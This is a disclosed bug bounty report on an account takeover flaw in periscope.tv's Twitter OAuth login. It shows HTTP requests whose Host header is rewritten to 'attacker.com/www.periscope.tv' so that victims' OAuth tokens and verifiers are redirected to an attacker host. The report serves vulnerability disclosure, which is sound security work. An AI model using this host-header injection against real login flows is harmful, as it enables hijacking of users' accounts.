 # Account Takeover in Periscope TV

## Report Details
- **Report ID**: 317476
- **URL**: https://hackerone.com/reports/317476
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-19T03:28:43.256Z
- **Disclosed**: 2018-09-06T15:37:02.275Z

## Reporter
- **Username**: ngalog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Summary:** 

When you login periscope.tv using twitter, and change the host header from `www.periscope.tv` to `attacker.com/www.periscope.tv`, the oauth redirect destination will be `attacker.com/www.periscope.tv`, thus allowing attacker to send the oauth authorize link to victim, and takeover their account after auto redirect.

## Steps To Reproduce:
Visit https://www.periscope.tv/ and click login with twitter, a request should appear

```
GET /i/twitter/login?csrf=████ HTTP/1.1
Host: www.periscope.tv
User-Agent: █████████
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.periscope.tv/
cookie: ...
```

Change the host header to 

`Host: hackerone.com/www.periscope.tv`

Full request

```
GET /i/twitter/login?csrf=██████ HTTP/1.1
Host: hackerone.com/www.periscope.tv
User-Agent: █████████
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.periscope.tv/
cookie: ...
```

Response should be something like 

```
<!DOCTYPE html><html><head><meta http-equiv="refresh" content="0;https://twitter.com/oauth/authenticate?oauth_token=████████"></head></html>
```

Send this link to victim, after authorizing, victim's twitter oauth token and verifier is sent to hackerone.com, attacker could now reuse the same token to takeover victim's account.

Vimeo: https://vimeo.com/256356501
password: ███████

## Impact

Account Takeover for periscope.tv

## Attachments
No attachments
